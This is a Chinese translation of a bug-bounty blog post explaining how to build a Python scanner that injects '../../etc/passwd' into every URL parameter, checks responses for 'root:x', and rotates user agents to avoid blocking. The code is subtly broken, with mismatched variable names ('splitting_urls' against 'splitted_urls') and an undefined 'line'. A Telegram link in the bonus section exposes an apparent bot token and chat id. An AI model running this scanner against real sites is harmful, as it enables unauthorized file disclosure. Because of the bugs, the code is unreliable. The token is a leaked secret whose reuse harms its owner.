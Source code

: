 # 如何编写一个简单的脚本来自动查找 bug

> 原文：<https://infosecwriteups.com/how-to-write-simple-script-to-automate-finding-bugs-438c121b61cf?source=collection_archive---------0----------------------->

今天，我将讨论如何编写一个简单的 Python 脚本来自动查找 bug。我举个例子:>**LFI 调查结果**。

![](img/e2a8baa4c2a62dde1205df3e8bfe3cf1.png)

## 内容

1.  **要求**
2.  **URL 先决条件**
3.  **编码**
4.  **奖金选项**
5.  **谢谢**

## 1.要求

1.  **Wayback** 带参数的 URL，可以查看我简单的 [**方法论**](https://eslam3kl.medium.com/simple-recon-methodology-920f5c5936d4) 知道如何抓取。【例如。[https://example.com？file=ay_value.txt]](https://example.com?file=ay_value.txt])
2.  **Python3** 和 **pip3**

3.有用的工具，比如[**GF**/**GF**-**Patterns**/**Uro**，你可以从 GitHub 获得

让我们开始吧…

> **警告**
> 
> 首先，我们需要了解，我们将尝试通过收集的 GET URLs 利用一些 GET 参数，因此我们不会覆盖所有的应用程序功能，我们仍然有一堆 POST 请求，这些请求也可能是易受攻击的，所以不要 100%依赖于我们将做的事情，**请**！

## 2.URL 先决条件。

在开始之前，我们需要知道为什么需要使用 GF/GF-Patterns/Uro？

如果我们有一个包含 1M 带参数链接的文件，那么有可能有 60%或更多的相似链接，这将浪费你的时间

```
[https://example.com**?parameter1**=lolololo**&parameter2**=lablablab](https://example.com?parameter1=lolololo&parameter2=lablablab)
https://example.com**?parameter1**=hhhhhhhhh**&parameter2**=youyouyou
```

虽然参数是相同的，所以我们只需要其中一个，这是`uro`工具的工作，你也可以使用`dpfilter`来做同样的工作。

```
**Usage**
cat waybackurls.txt | uro > uro_output
cat waybackurls.txt | dpfilter > dpfilter_output
```

过滤完 URL 后，我们需要根据流行的参数名称再次过滤它们，例如

```
[https://example.com**?file**=profile_info.txt](https://example.com?file=profile_info.txt)
https://example.com**?search**=I%20am%20not%20LFI%20parameter%20hommie
```

第一个 URL 似乎容易受到 LFI 的攻击，但第二个 URL 则不然，根据参数名我们可以预计可能有哪些易受攻击的链接。

```
**Usage**
$ cat uro_output | gf lfi > lfi_gf.txt
```

## 3.编码

是时候开始编码了

![](img/28a1bd4a06724e35e13d9594f3e7e8a0.png)

首先，我们需要这些库:

```
**import exurl** #replacing parameter values
**import sys** #system library 
**import requests** #send web requests 
**from termcolor import colored** #coloring
**from tqdm import tqdm** #create progress bar
```

让我们更多地了解`[exurl](https://pypi.org/project/exurl/?fbclid=IwAR31AiqD5Igw1xKbrcbT3024fRCcdY_n1g7FwF8JoQmKfgbz6_VTQTLGnsU)`..

用来把你的有效载荷放在 URL 的每个参数上，例如如果我们有一个像这样的 URL，https://example.com？file=aykalam & doc=zzzzzz，所以我们需要输出每个参数都为`../../../../etc/passwd`的有效载荷来创建 2 个 URL。那么`exurl`库和`qsreplace`工具有什么区别呢。

*以下是不同之处*

```
**exurl**
https://example.com?**file**=../../../../etc/passwd&**doc**=zzzzzz
https://example.com?**file**=aykalam&**doc**=../../../../etc/passwd**qsreplace** https://example.com?**file**=../../../../etc/passwd[&**doc**=](https://example.com?file=aykalam&doc=zzzzzz)../../../../etc/passwd
```

现在，你可以知道我的意思是用不同的 URL 替换每个参数，而不是在同一个 URL 替换它们。

第二步是使用`sys`库从用户那里获取 URL 文件，记住文件必须只包含带参数的链接，因为有我们的作用域。

```
file = sys.argv[1] **# Usage: python3 lfi_check.py <file>**
```

下一步是创建一个函数，将每个 URL 划分为独立的 URL，并在每个参数处替换有效载荷，就像我们上面使用`exurl`演示的那样，明白了吗？

```
**# put your payload at a variable** 
payload = "../../etc/passwd"**# create a function, you can check the library usage from its docs**
def split_file(file, payload):
    with open(file, 'r') as links:
        splitting_urls = exurl.split_urls(links, payload)
        return splitted_urls**# Calling the function** splitted_urls = split_file(file, payload)
```

如您所见，它将获取文件，替换每个参数的值，并在名为`splitted_urls`的数组中返回输出

下一步是创建另一个函数，它将接受`splitted_urls`并向每个有效负载的 URL 发送一个请求，并检查有效负载是否工作。

```
**# create a variable contain user-agent to avoid simulate normal request**
user_agent = "Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko"**# create a proxy [It's not required]**
proxies = {
  "http": "[http://127.0.0.1:8080](http://127.0.0.1:8080)"
}**#start the function which will send a GET request to each URL**def send_request(URL):
    line = line.rstrip()
    headers = {"User-Agent": user_agent}
    try:
        r = requests.get(line, headers=headers, proxies=proxies, verify=False, timeout=15) **# Sending GET request** 
        content = r.content **# GET Page source code** 
        if b"root:x" in content:
            print(colored("\n\n[+] Vulnerable :> ", 'red') + line + "\n")
    except KeyboardInterrupt:
        exit()
    except Exception as error:
        # If you have an error, it will print it 
        print(line, error)
        pass
```

因此，到目前为止，我们有 2 个函数，一个用于 URL 拆分，另一个用于向每个 URL 发送请求。

> 如果你想知道为什么第二个函数不接受一个 URL 列表，而是通过一个循环发送一个请求，而是一个 URL 接一个 URL，实际上，这取决于进度条函数的用法。

最后一步是创建一个函数来检查进度并设置一个进度条。

```
**# Calculate the final array length** 
array_length = len(splitted_urls)**# Progress function**
for i in tqdm(range(array_length), desc="Loading...", ascii=False, ncols=75):line = splitted_urls[i] **# Take the first URL**
    send_request(line) **# Call the function** 
print(colored("\nEslam! We have finished\n", "green", attrs=['bold'])) **# Print this message after you have done.**
```

让我们总结一下我们已经做了什么，首先，我们获取一个带有参数的 URL 文件，并将它们传递给`exurl`一个库，该库用有效载荷`../../../../etc/passwd`替换每个参数的值

之后，它会调用一个函数向每个付费 URL 发送一个请求，并检查我们是否在响应中有一个自定义单词，如果有，它会打印易受攻击的 URL，如果没有，它会传递给另一个。

为了了解我们的进展，我们创建了一个进度条，以了解已完成的 URL 的百分比以及完成该过程的预期时间。

**最终代码将为**

在尝试使用包含 21 个链接的文件和创建 28 个链接后，我们发现了一个易受攻击的链接

![](img/dc95e51266eb79157f66af5071cfe8ac.png)

## 红利期权

1.  您可以在一个数组中添加多个 LFI 有效负载，并使用 for 循环遍历它们，在每个 URL 尝试每个有效负载
2.  您可以在一个数组中添加多个用户代理，并在每次请求时根据您的用户代理随机选择一个以避免阻塞，您可以使用`random`库来执行此步骤

```
import random 
user_agent_list = ["Multiple User Agents"]
user_agent_random =random.choice(user_agent_list)
headers = {"User-Agent": str(user_agent_random)}
```

3.您可以使用 Telegram bot 令牌来通知您它是否发现了一个易受攻击的链接，或者如果它完成了，使用`subprocess`库来执行`curl`命令。

```
subprocess.call('curl -s "[https://api.telegram.org/<token>/sendMessage?chat_id=<chat-id>&text=](https://api.telegram.org/bot1875655001:AAHQub53HxAw4ckmPQMXBTSIaVtCuvyTHwQ/sendMessage?chat_id=971620208&text=LFI)"Message"', shell=True)
```

## 由于

[**阿卜杜勒拉赫曼·卡迈勒**](https://pypi.org/user/Abdulrahman-Kamel/) 为了他伟大的图书馆`exurl`和他的努力。

## 保持联系

[LinkedIn](https://www.linkedin.com/in/eslam-akl-6b998614a/)|[GitHub](https://github.com/eslam3kl)|[Twitter](https://twitter.com/eslam3kll)